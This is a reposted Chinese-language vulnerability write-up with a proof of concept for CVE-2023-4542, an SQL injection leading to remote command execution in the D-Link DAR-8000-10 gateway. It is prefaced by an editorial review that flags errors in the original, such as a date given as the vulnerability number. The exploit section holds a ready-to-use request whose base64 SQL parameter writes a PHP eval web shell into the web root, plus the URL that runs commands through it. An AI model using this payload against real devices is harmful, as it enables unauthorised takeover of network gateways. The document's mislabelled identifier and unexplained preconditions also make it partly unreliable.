


# CVE-2023-4542：D-LINK-DAR-8000-10 远程命令执行 附 POC

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DAR-8000-10
- 本文讨论：CVE-2023-4542
- 版本、权限与配置前提：型号无版本；SQL写web文件需数据库FILE权限/可写路径，未说明鉴权
- 资料类型：短PoC转载；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 将20230809写成漏洞编号，与标题CVE冲突（可能为版本/日期字段误译）
- 测绘语句被关注回复占位
- SQL写文件到代码执行链未解释必要权限

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 20230809字段含义、认证及FILE权限待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nqrSEnMFCwOpH9SmwoiynA)

_**简介**_  

D-LINK DAR-8000 系列上网行为审计网关提供完善的互联网访问行为管理解决方案，全面保护企业的运营效率和信息安全。DAR-8000 系列产品提供全面的应用识别和控制能力、精细化的应用层带宽管理能力、分类化的海量 URL 过滤能力、详尽的上网行为审计能力以及丰富的上网行为报表，从而帮助企业快速构建可视化、低成本以及高效安全的商业网络。


_**漏洞描述**_  

D-Link DAR-8000-10 中发现漏洞，漏洞编号为 20230809。该漏洞已被列为严重漏洞。这会影响文件 /importhtml.php 的未知部分。使用输入 的 sql 参数 造成 SQL 注入，从而导致文件写入，最后会导致操作系统远程命令执行。

_**影响版本**_  

```
DLink-DAR-8000-10

```

_**空间测绘**_  

```
回复“CVE-2023-4542”获取空间测绘搜索语句

```

_**漏洞利用**_

1.  访问 DLink-DAR-8000-10 主页面
    


2. 执行 payload，不用打开或保存

```
https://xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUyNDU1MTU1NDU1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiMjAzZjNlIGludG8gb3V0ZmlsZSAnL3Vzci9oZGRvY3MvbnNnL2FwcC9tb2R1bGUuY2xhc3MucGhwJw==

```



3. 直接访问 shell

```
https://xxx.xxx.xxx/app/module.class.php?cmd=phpinfo();

```



_**参考链接**_

```
https://nvd.nist.gov/vuln/detail/CVE-2023-4542
https://github.com/PumpkinBridge/cve/blob/main/rce.md

```

回复 “CVE-2023-4542” 获取空间测绘搜索语句

**仅供学习交流，勿用作违法犯罪**


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
